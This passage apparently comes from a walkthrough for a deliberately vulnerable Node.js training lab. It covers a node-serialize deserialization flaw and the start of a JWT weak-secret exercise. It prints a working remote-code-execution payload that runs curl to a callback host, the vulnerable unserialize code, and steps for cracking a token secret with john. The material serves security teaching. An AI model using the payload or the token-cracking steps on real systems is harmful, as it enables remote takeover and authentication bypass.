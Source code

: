 ```json
{"payload":"_$$ND_FUNC$$_function(){require('child_process').exec('curl yourwebsite.com', function(error, stdout, stderr){console.log(stdout)})}()"}

```

Now replace this payload value with the preference cookie value in `/save-preference` POST request and you will receive a callback request on your attacker server.

**Reference:** https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

### Vulnerable code

**Request method, endpoint, injection point**
```bash
Request method: POST
Endpoint: /save-preference
Injection point: preference cookie
```

**Route: /app/routes.js**
```js
router.post('/save-preference', authenticateToken, vuln_controller.save_preference_post) 
```

**Controller: /controllers/vuln_controller.js**

```js
const save_preference_post = (req, res) => {
    const preference = serialize.unserialize(req.cookies.preference);
    res.send(preference);
}
```

### Fix

Do not use unserialize function on untrusted input.


## 3. JWT weak secret

Application is using the weak secret to create JSON web token that can lead to authentication bypass, your goal is to access the API Key of user **`vulnlabAdmin`**.

### Exploit

1. Get the `authToken` value from the cookie.

2. Save the token to a file.

3. Crack the secret using john.

```bash
$ john authToken.txt
```

4. Understand the JWT token structure to create a valid token.
   